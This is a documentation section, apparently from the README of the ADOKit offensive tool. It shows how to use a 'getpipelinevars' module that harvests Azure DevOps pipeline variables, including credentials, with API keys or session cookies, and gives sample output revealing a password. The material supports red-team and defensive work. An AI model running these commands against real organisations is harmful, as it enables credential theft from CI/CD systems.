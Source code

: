 ### Get Pipeline Variables

#### Use Case

> *Extract any pipeline variables being used in project(s), which could contain credentials or other useful information.*

#### Syntax

Provide the `getpipelinevars` module along with a `/project:` for a given project to extract any pipeline variables being used. If you would like to extract pipeline variables from all projects specify `all` in the `/project:` argument.

`ADOKit.exe getpipelinevars /credential:apiKey /url:https://dev.azure.com/organizationName /project:"someProject"`

`ADOKit.exe getpipelinevars /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/organizationName /project:"someProject"`

`ADOKit.exe getpipelinevars /credential:apiKey /url:https://dev.azure.com/organizationName /project:"all"`

`ADOKit.exe getpipelinevars /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/organizationName /project:"all"`

#### Example Output

```
C:\>ADOKit.exe getpipelinevars /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/YourOrganization /project:"maraudersmap"

==================================================
Module:         getpipelinevars
Auth Type:      Cookie
Project:        maraudersmap
Target URL:     https://dev.azure.com/YourOrganization

Timestamp:      4/6/2023 12:08:35 PM
==================================================


[*] INFO: Checking credentials provided

[+] SUCCESS: Credentials provided are VALID.

             Pipeline Var Name |                                 Pipeline Var Value
-----------------------------------------------------------------------------------
                    credential |                                       P@ssw0rd123!
                           url |                                       http://blah/

4/6/23 16:08:36 Finished execution of getpipelinevars

```
